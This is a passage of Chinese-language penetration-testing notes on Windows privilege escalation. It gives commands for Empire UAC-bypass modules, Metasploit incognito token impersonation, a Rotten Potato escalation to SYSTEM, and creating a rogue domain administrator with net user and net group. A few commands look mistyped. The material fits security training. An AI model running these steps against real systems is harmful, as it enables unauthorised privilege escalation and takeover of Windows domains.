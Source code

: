 ### [](#empire-%E4%B8%AD%E7%9A%84-bypassuac-%E6%A8%A1%E5%9D%97)Empire 中的 bypassuac 模块

#### [](#bypassuac-%E6%A8%A1%E5%9D%97-1)bypassuac 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>usemode privesc/bypassuac <br>execute<br>``` |

#### [](#bypassuac_wscript-%E6%A8%A1%E5%9D%97)bypassuac\_wscript 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>usemode privesc/bypassuac_wscript<br>execute<br>``` |

## [](#%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)令牌窃取

### [](#msf-%E4%B8%8A%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)msf 上的令牌窃取

假设已经获取了 meterpreter shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>use incognito<br>list_tokens -u<br>``` |

在 `incognito` 中调用 `impersonate_token`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>impersonate_token DESKTOP-DUNPKQ9\\Administrator<br>``` |

`注意`：在输入主机名 `\` 用户名时，需要输入两个反斜杠

### [](#rotten-potato-%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83)Rotten Potato 本地提权

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use incognito<br>list_tokens -u<br>execute -HC -f rottenpotato.exe<br>impersonate_token "NT AUTHORITY\\SYSTEM"<br>``` |

### [](#%E6%B7%BB%E5%8A%A0%E5%9F%9F%E7%AE%A1%E7%90%86%E5%91%98)添加域管理员

假设网络中设置了域管进程，在 `meterpreter shell` 中迁移进程至域管进程中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>net user test test123!@# /ad /domain<br>net group "domain admins" test /ad /domain<br>``` |
